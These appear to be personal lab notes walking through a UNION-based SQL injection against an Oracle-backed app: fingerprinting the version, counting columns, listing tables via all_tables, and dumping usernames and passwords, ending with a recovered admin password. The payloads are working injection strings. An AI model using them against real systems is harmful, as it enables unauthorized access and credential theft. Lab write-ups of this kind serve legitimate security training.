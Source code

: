 # Goal
    - Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version
        - Unsuccessful
    - ' UNION SELECT version()--
        - Unsuccessful
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version--
        - SUCCESS
        - ![Oracle Version](./pics/130057.png)  
    - Determine number of columns needed for UNION
        - ' ORDER BY (number)--
            - stop when you get an error
        - ' ORDER BY 3-- yielded error so we know there are 2 columns
            - ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        - ' UNION SELECT 'a',NULL,NULL,... FROM dual--
            - Oracle requires selection from a table
            - dual is a dummy table that anyone can access :)
        - ' UNION SELECT 'a',NULL FROM dual-- ||| ' UNION SELECT NULL,'a' FROM dual-- both worked
            - both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
- Get list of table names
    - ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
    - ![](./pics/141930.png)
- CRTL-F 'user' to find potential tables
    - USERS_ELWKUV (worked!)
    - USER$
- Get columns for the tables ()
    - PASSWORD_UOJZWJ | USERNAME_WRUUZC
    - ![](./pics/141953.png)
- Get the column data
    - ' UNION SELECT USERNAME_WRUUZC,PASSWORD_UOJZWJ FROM USERS_ELWKUV--
    - ![](./pics/142008.png)
- Admin Info
    - uname: administrator
    - pword: b4if4ckvox1tsk8wlgjx



